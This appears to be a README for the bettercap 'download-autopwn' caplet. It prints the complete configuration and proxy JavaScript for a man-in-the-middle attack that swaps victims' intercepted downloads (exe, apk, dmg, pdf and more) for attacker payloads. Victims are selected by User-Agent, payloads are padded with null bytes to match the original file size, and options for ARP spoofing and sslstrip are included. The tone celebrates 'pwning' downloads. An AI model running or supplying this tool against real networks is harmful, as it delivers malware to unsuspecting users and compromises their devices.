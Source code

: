 <p align="center"><img height="142px" src="http://svgur.com/i/5rA.svg" /></p>

### caplets/download-autopwn.cap

Everything is configurable in the **download-autopwn.cap** file.

```sh
# documentation can be found at https://github.com/bettercap/caplets/...
# 
# this module lets you intercept very specific download requests and replaces the payload with one of your choice
#
# in order for a download to get intercepted:
#    1. the victim's user-agent string must match the downloadautopwn.useragent.x regexp value
#    2. the requested file must match one of the downloadautopwn.extensions.x file extensions
#
# you can find the downloadautopwn.devices in the caplets/download-autopwn/ folder (you can always add your own)

# choose the devices from which downloads get pwned (enter the dir names of choice from caplets/download-autopwn/)
# (or feel free to add your own)
set downloadautopwn.devices android,ios,linux,macos,ps4,windows,xbox

# choose the regexp value that the victim's User-Agent has to match
# (feel free to add your own)
set downloadautopwn.useragent.android  Android
set downloadautopwn.useragent.ios      iPad|iPhone|iPod
set downloadautopwn.useragent.linux    Linux
set downloadautopwn.useragent.macos    Intel Mac OS X 10_
set downloadautopwn.useragent.ps4      PlayStation 4
set downloadautopwn.useragent.windows  Windows|WOW64
set downloadautopwn.useragent.xbox     Xbox

# choose which file extensions get intercepted and replaced by your payload on specific devices (payloads are in caplets/download-autopwn/.../)
# (again, you can add as many as you want)
# make sure the payload files exist and that they are all named "payload" (for example: payload.exe)
set downloadautopwn.extensions.android  apk,pdf,sh,pfx,zip
set downloadautopwn.extensions.ios      ipa,ios,ipb,ipsw,ipsx,ipcc,mobileconfig,pdf,zip
set downloadautopwn.extensions.linux    c,go,sh,py,rb,cr,pl,deb,pdf,jar,zip
set downloadautopwn.extensions.macos    app,dmg,doc,docx,jar,ai,ait,psd,pdf,c,go,sh,py,rb,pl,terminal,zip
set downloadautopwn.extensions.ps4      disc,pup,pdf,doc,docx,zip
set downloadautopwn.extensions.windows  exe,msi,bat,jar,dll,doc,docx,swf,psd,ai,ait,pdf,rar,zip
set downloadautopwn.extensions.xbox     exe,msi,jar,pdf,doc,docx,zip

# choose whether the proxy module resizes your payload to the requested file's size (if not set then default=false)
set downloadautopwn.resizepayloads true

# set download-autopwn.js as proxy script
set http.proxy.script caplets/download-autopwn.js
# uncomment if you want sslstrip enabled
# set http.proxy.sslstrip true
# start proxy
http.proxy on

# wait for everything to start properly
sleep 1

# uncomment if you want arp spoofing (make sure probing is off as it conflicts with arp spoofing)
# arp.spoof on
```

<br>

The `downloadautopwn.devices` variable accepts comma separated values. 
<br>
These values are the folder names inside the **caplets/download-autopwn/** directory.

<br>

The `downloadautopwn.useragent.x` variables accept a regular expression value (where `x` is the device name).
<br>
The victim's User-Agent string has to match this regex value.

<br>

The `downloadautopwn.extensions.x` variables accept file extensions that are present in the device's folder (where `x` is the device name).
<br>
These files must be present in the device's folder, and they must be called `payload` (for example: `payload.exe`).

<br>

The `downloadautopwn.resizepayloads` variable accepts a boolean value (default=false).
<br>
If this value is set to true, your payloads will be resized to match the requested file's size (unless your payload is bigger or equal to the requested file's size).

<br>

### caplets/download-autopwn.js

No changes should have to be made in the **download-autopwn.js** file.

```javascript
var targets = {},
    devices = []

var nullbyte = "\u0000"

var green   = "\033[32m",
    boldRed = "\033[1;31m",
    onRed   = "\033[41m",
    reset   = "\033[0m"

function onLoad() {
  devices = env("downloadautopwn.devices").split(",")
  for (var i = 0; i < devices.length; i++) {
    item = {
      "device": devices[i],
      "useragent": env("downloadautopwn.useragent." + devices[i]),
      "extensions": env("downloadautopwn.extensions." + devices[i]).split(",")
    }
    targets[i] = item
    logStr = "\n  " + green + targets[i]["device"] + reset +
      "\n    User-Agent: " + targets[i]["useragent"] + 
      "\n    Extensions: " + targets[i]["extensions"] + "\n"
  }
  log("Download Autopwn loaded.\n\nDownload Autopwn targets: \n" + logStr)
}

function onResponse(req, res) {
  // First of all check whether the requested path might have an extension (to save cpu)
  var strippedPath = req.Path.replace(/.*\//g, "")
  if (strippedPath.indexOf(".") != -1) {
    var userAgent,
        extension
    // Grab User-Agent
    for (var h = 0; h < req.Headers.length; h++) {
      if (req.Headers[h]["Name"] == "User-Agent") {
        userAgent = req.Headers[h]["Value"]
      }
    }
    // Iterate through targets
    for (var t = 0; t < Object.keys(targets).length; t++) {
      // Check if User-Agent is a target
      regex = new RegExp(targets[t]["useragent"])
      if ( userAgent.match(regex) ) {
        // Iterate through target extensions
        for (var e = 0; e < targets[t]["extensions"].length; e++) {
          // Check if requested path contains a targeted extension
          // function endsWith() could be a nice simplification here
          if ( strippedPath.replace(/.*\./g, "") == targets[t]["extensions"][e] ) {
            extension = targets[t]["extensions"][e]
            // Autopwn
            logStr = "\n\n  " + onRed + " " + reset + "  Autopwning download request from " + boldRed + req.Client + reset
            logStr += "\n  " + onRed + " " + reset
            logStr += "\n  " + onRed + " " + reset + "  Found " + boldRed + extension.toUpperCase() + reset + " extension in " + boldRed + req.Hostname + req.Path + reset
            logStr += "\n  " + onRed + " " + reset
            logStr += "\n  " + onRed + " " + reset + "  Grabbing " + boldRed + targets[t]["device"].toUpperCase() + reset + " payload..."
            // Check requested file size
            requestedFile = res.ReadBody()
            requestedFileSize = requestedFile.length
            payload = readFile("caplets/download-autopwn/" + targets[t]["device"] + "/payload." + extension)
            payloadSize = payload.length
            logStr += "\n  " + onRed + " " + reset + "  The size of the requested file is " + boldRed + requestedFileSize + reset + " bytes"
            logStr += "\n  " + onRed + " " + reset + "  The raw size of your payload is " + boldRed + payloadSize + reset + " bytes"
            logStr += "\n  " + onRed + " " + reset
            // Append nullbytes to payload if requested file is larger than payload and resizing is enabled
            if (requestedFileSize > payloadSize && env("downloadautopwn.resizepayloads") == "true") {
              logStr += "\n  " + onRed + " " + reset + "  Resizing your payload to " + boldRed + requestedFileSize + reset + " bytes..."
              sizeDifference = requestedFileSize - payloadSize
              nullbyteString = Array(sizeDifference + 1).join(nullbyte)
              payload += nullbyteString
            }
            logStr += "\n  " + onRed + " " + reset + "  Serving your payload to " + boldRed + req.Client + reset + "...\n"
            log(logStr)
            res.Body = payload
          }
        }
      }
    }
  }
}
```

<br>

### Now you're all set to pwn!

#### What it looks like when you have configured a crazy amount of payloads

![screenshot 1](https://user-images.githubusercontent.com/29265684/37411166-e3796c46-27ed-11e8-94da-8e1c226a0dd3.png)

#### What it looks like when you pwn someone's download >:-)

![screenshot 2](https://user-images.githubusercontent.com/29265684/37409382-f6bb143e-27e9-11e8-86c5-c1c556900556.png)

Have fun!
